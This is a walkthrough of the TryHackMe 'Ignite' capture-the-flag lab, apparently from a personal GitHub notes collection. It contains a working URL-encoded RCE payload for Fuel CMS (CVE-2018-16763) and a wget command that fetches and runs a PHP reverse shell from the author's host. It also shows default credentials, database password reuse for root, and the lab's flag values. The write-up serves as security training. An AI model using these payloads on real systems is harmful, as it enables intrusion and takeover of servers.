

# Ignite CTF
### This is a walkthrough of the [Ignite CTF](https://tryhackme.com/room/ignite)
* * *
It is a classic room where you exploit a Linux box, running vulnerable CMS and owning the machine.
<br>OK lets begin!

I always like to export the ip address of the target to a env variable, because I don't need to type the whole address everytime.

>export ip=10.10.28.46

Ok lets start an Nmap scan
>$ nmap -sC -sV -oN nmap.txt $ip

```
# Nmap 7.80 scan initiated Wed Jun 24 12:30:40 2020 as: nmap -sC -sV -oN nmap.txt 10.10.28.46
Nmap scan report for 10.10.28.46
Host is up (0.076s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jun 24 12:30:54 2020 -- 1 IP address (1 host up) scanned in 13.52 seconds
```
We can see that only port 80/tcp is open ... <br>
If we open it in a web browser there is a default FuelCMS instance running,
lets check out the admin panel `/fuel`. It appears that it has the default admin:admin credentilas.
```
$ip/fuel
admin:admin

maybe could be solved by uploading reverse php shell via the cms control panel since we know the creds ...
```
I tried to upload a PHP reverse shell manually, via the admin panel, but failed.
I ran searchsploit against Fuel CMS and found out an interesting RCE (CVE 2018-16763) that could help me out to gain further access ...

```
Fuel CMS RCE < 1.4.1 (1.4 in our case)
CVE 2018-16763 

exploit(code='ls -la'):

$ip/fuel/pages/select/?filter='%2bpi(print(%24a%3d'system'))%2b%24a('ls -al')%2b'

credits: https://www.youtube.com/watch?v=wLWqkULvefU
```
Here i use the RCE to upload a reverse PHP shell, that I have hosted on my Kali box using SimpleHTTP server.

```
reverse shell upload and execute

http://10.10.28.46/fuel/pages/select/?filter='%2bpi(print(%24a%3d'system'))%2b%24a('wget 10.5.2.55:8000/reverse.php -O reverse.php')%2b'

10.10.28.46/reverse.php
```
Here I have found the User flag
```
User.txt
6470e394cbf6dab6a91682cc8585059b
```
I started enumerating, with linpeas, etc ...<br>
Couldn't find any privilage escalation vectors.
<br>I have spend a lot of time going around in circles. At this point I started trying out everything i could think of. <br>
I googled FuelCMS Database Configuration and found out [this article](https://www.codeigniter.com/user_guide/database/configuration.html) <br>
They were talking about the MySQL DB, and I assume the app needs to talk with the DB, to do so it need to get authenticated with the DB using some kind of credentials...
I have read that the configuration file is stored in app/config/database.php. <br>
At first i couldn't find it, so i ran a quick `find`.
```bash
$ find / -name database.php 2>/dev/null
/var/www/html/fuel/application/config/database.php
```
* * *
## A QUICK TIP
>If we take a look at the end of the `find` command i have used above, `2>/dev/null` is baiscally telling the shell to send [`Stderr` (Standart error)](https://www.computerhope.com/jargon/s/stderr.htm) to /dev/null.
> * 0:stdin
> * 1:stdout
> * 2:stderr
>
>That way when we search through the `/` directory there are many files that we can't open simply because we do not have the permissions to. <br>
>So we use `2>/dev/null` to NOT print the error messages we get. <br>
>We want to see only the relevant information and not a shell filled up with `find: ‘/root’: Permission denied`

* * *

### If we take a look at the default page of Fuel CMS, we can see that it is right in front of us, but yeah ...

<a href="pics/ignite/pic1.png" target="_blank"></a>

I have found root creds in the file. Now lets check for credential reuse. And I am root, lets get the flag ...

```
'username' => 'root',
'password' => 'mememe',
```
```
Root.txt
b9bbcb33e11b80be759c4e844862482d
```

### You can find more notes on TryHackMe CTFs at my [GitHub](https://github.com/P4nd4233/tryHackMe_CTFs_Notes) .